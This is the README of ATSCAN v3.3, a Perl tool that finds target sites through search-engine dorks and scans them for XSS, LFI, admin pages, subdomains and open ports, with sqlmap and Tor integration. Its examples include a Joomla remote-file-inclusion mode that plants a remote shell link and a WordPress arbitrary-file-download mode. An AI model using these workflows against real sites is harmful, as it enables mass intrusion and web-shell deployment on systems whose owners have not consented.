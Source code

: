 <h1 align="center">ATSCAN-V3.3</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center>
<table border="0" cellpadding="0" cellspacing="2" width="100%px">
  <tr>
    <td align="center">Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!</td>
  </tr>
</table>
</center>
<table border="0" cellpadding="0" cellspacing="2" width="100%px">
  <tr>
    <td width="30%">AUTHOR:</td><td>Alisam@Technology</td>
  </tr>
  <tr>
    <td width="30%">FACE</td><td>facebook.com/Forces.des.tempetes.marocaines</td>
  </tr>
  <tr>
    <td width="30%">YOUTUBE:</td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="30%">WITTER:</td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="30%">PLUS:</td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>

<img src="http://i.imgur.com/YxpXOx5.png" />
<p> <b>Description: </b></p>
ATSCAN Version 3.3 <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap. <br /> LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64. <br />This this my first script im sure is full with mistakes!! 

<p> <b>Libreries to install: </b></p>
ap-get install libxml-simple-perl                                                                                               <br />
NOTE: Works in linux platforms.

<p> <b>Permissions & Executution: </b></p>
$chmod +x atscan.pl </br>
Execute: perl ./atscan.pl
Execute: perl ./atscan.pl --help

<p> <b>Screenshots: </b></p>
<img src="http://i.imgur.com/kAHDYnd.jpg" /><br />
<img src="http://i.imgur.com/atgEOXR.jpg" /><br />
<img src="http://i.imgur.com/dgvdZ6O.jpg" /><br />
<img src="http://i.imgur.com/U1TA0iM.jpg" /><br />

<p> <b>HELP: </b></p>
<table cellpadding="0" cellspacing="2" border="0">
  <tr>
    <td width="20%">--tor</td>
    <td>tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
  </tr>
  
  <tr>
    <td width="20%">-s / -ls</td>
    <td>Search engine</td>
  </tr>
  
  <tr>
    <td width="20%">--mp</td>
    <td>set number of page results to scan</td>
  </tr>
  
  <tr>
    <td width="20%">--xss</td>
    <td>Xss scan</td>
  </tr>
  
  
  <tr>
    <td width="20%">--lfi</td>
    <td>lfi scan</td>
  </tr>
  
  <tr>
    <td width="20%">-t</td>
    <td>Target</td>
  </tr>
  <tr>
    <td width="20%">-l</td>
    <td>List name</td>
  </tr>
  <tr>
    <td width="20%">--exp</td>
    <td>Set exploit</td>
  </tr>
  <tr>
    <td width="20%">--valid</td>
    <td>Text for validate results</td>
  </tr>
  <tr>
    <td width="20%">--sqlmap</td>
    <td>Sqlmaping xss results</td>
  </tr>
  <tr>
    <td width="20%">--sqlmaptor</td>
    <td>Sqlmaping xss results using tor proxy                                                                                    </td>
  </tr>
  <tr>
    <td width="20%">--lfi</td>
    <td>local file inclusion</td>
  </tr>
  <tr>
    <td width="20%">--joomrfi</td>
    <td>get joomla sites with rfi in the server</td>
  </tr>
  <tr>
    <td width="20%">--shell</td>
    <td>shell link [Ex: http://www.site.com/shell.txt]</td>
  </tr>
  <tr>
    <td width="20%">--wpadf</td>
    <td>get wordpress sites with arbitery file download in the server</td>
  </tr>
  <tr>
    <td width="20%">--admin</td>
    <td>get site admin page</td>
  </tr>
  <tr>
    <td width="20%">--shost</td>
    <td>get site subdomains</td>
  </tr>
  <tr>
    <td width="20%">--ports</td>
    <td>scan server ports</td>
  </tr>
  <tr>
    <td width="20%">--start</td>
    <td>start scan port</td>
  </tr>
  <tr>
    <td width="20%">--end</td>
    <td>end scan port</td>
  </tr>
  <tr>
    <td width="20%">--tcp</td>
    <td>tcp ports</td>
  </tr>
  <tr>
    <td width="20%">--udp</td>
    <td>udp ports</td>
  </tr>
  <tr>
    <td width="20%">--all</td>
    <td>complete mode</td>
  </tr>
  <tr>
    <td width="20%">--basic</td>
    <td>basic mode</td>
  </tr>
  <tr>
    <td width="20%">--sites</td>
    <td>sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--wp</td>
    <td>wordpress sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--joom</td>
    <td>joomla sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--upload</td>
    <td>get sites with upload files in the server</td>
  </tr>
  <tr>
    <td width="20%">--zip</td>
    <td>get sites with zip files in the server</td>
  </tr>
  <tr>
    <td width="20%">--st</td>
    <td>string</td>
  </tr>
  <tr>
    <td width="20%">--md5</td>
    <td>convert to md5</td>
  </tr>
  <tr>
    <td width="20%">--encode64</td>
    <td>encode base64 string</td>
  </tr>
  <tr>
    <td width="20%">--decode64</td>
    <td>decode base64 string</td>
  </tr>
  <tr>
    <td width="20%">--isup</td>
    <td>check http status 200</td>
  </tr>
  <tr>
    <td width="20%">--httpd</td>
    <td>print site httpd version</td>
  </tr>
</table>
<p> <b>EXAMPLES: </b></p>
<table cellpadding="0" cellspacing="2" border="0">
  <tr>
    <td>
    <b>Simple search:                                                                                                       </b><BR/>
    -s DORK --mp number of page results to scan<BR/>
    -s <DORK1,DORK2,DORK3..> --mp NUM OF PAGE ERSULTS TO SCAN<BR/> 
    -ls <DORK.txt> --mp NUM OF PAGE ERSULTS TO SCAN to scan from list<BR/>
    <B>Subscan from Serach Engine</B><BR/>
    Xss: -s DORK --mp 1 --xss<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss<BR/>
    Lfi: -s DORK --mp 1 --lfi<BR/>
    Search + Command: -s DORK --mp VALUE --command 'curl -v' --TARGET<BR/>
    <b>Validation</b><BR/>
    Xss: -s DORK --mp 1 --xss --valid TEXT<BR/>
    Lfi: -s DORK --mp 1 --lfi --valid TEXT<BR/>
    Xss: -s DORK --mp 1 --xss --isup<BR/>
    Lfi: -s DORK --mp 1 --xss --isup<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss --valid TEXT<BR/>
    Lfi: -ls DORKS.TXT --mp 1 --lfi --valid TEXT<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss --isup<BR/>
    Lfi: -ls DORKS.TXT --mp 1 --xss --isup<BR/>
    <b>Use List / Target</b><BR/>
    Xss: -t TARGET --xss<BR/>
    Lfi: -l TARGET --lfi<BR/>
    Xss + Validation: -t TARGET --xss --valid TEXT<BR/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT <BR/>
    Xss + Validation: -l list.txt --xss --isup<BR/>
    Lfi + Validation: -l list.txt --lfi --isup <BR/>
    Find admin page: -t TARGET --admin <BR/>
    Find subdomains: -t TARGET --shost <BR/>
    <b>Server:  </b><BR/>
    Get Server sites: -t IP --mp VALUE --sites <BR/>
    Get Server wordpress sites: -t IP --mp VALUE --wp  <BR/>
    Get Server joomla sites: -t IP --mp VALUE --joom  <BR/>
    Get Server upload sites: -t IP --mp VALUE --upload  <BR/>
    Get Server zip sites files: -t IP --mp VALUE --zip  <BR/>
    WP Arbitry File Download: -t IP --mp VALUE --wpadf  <BR/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK <BR/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp <BR/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp <BR/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp <BR/>
    Scan complete tcp: -t IP --ports --all --tcp <BR/>
    Scan complete udp: -t IP --ports --all --udp <BR/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp <BR/>
    Scan rang tcp: -t IP --ports --start --end --tcp <BR/>
    Scan rang udp: -t IP --ports --start --end --udp <BR/>
    Scan rang udp + tcp: -t IP --ports --start VALUE --end VALUE --udp --tcp <BR/>
    <b>Encode / Decode:  </b><BR/>
    Generate MD5: -st STRING --md5  <BR/>
    Encode base64: -st STRING --encode64  <BR/>
    Decode base64: -st STRING --decode64  <BR/>
    </td>
  </tr>
</table>


